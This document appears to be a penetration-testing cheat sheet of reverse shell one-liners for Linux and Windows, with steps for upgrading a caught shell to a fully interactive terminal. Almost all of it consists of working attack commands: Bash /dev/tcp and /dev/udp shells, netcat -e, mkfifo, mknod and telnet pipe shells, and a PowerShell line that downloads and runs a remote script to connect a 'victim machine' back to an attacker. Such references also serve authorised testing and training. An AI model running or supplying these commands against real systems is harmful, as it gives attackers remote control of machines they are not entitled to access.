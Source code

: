 # Linux fully interactive tty
1. use python 2 or python3 `pty` module's `spawn` function
	1. `python -c 'import pty; pty.spawn("/bin/bash")'`
	2. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. use `CTRL + Z` to background the shell
3. use `stty size` to view the terminal dimensions *to be used in step #7*
4. use `stty raw -echo` then `fg`
5. type `reset` even if you don't see visual feedback
6. when the reverse shell is back, set your `SHELL` and `TERM` environement variables
`export SHELL=/bin/bash && export TERM=xterm-256color`
7. set terminal size using `stty rows <number> columns <number>`
`size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "[*] setting stty rows to $rows and columns to $cols"; stty rows $rows columns $cols`

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done`

## Bash/Netcat:
`nc -nv <LHOST> <LPORT> -e /bin/bash`

## mkfifo:
`rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

## mknod:
`rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`

## Bash UDP
1. victim: `sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1`
2. attacker: `nc -u -lvp <LPORT>`

# Telnet
`rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`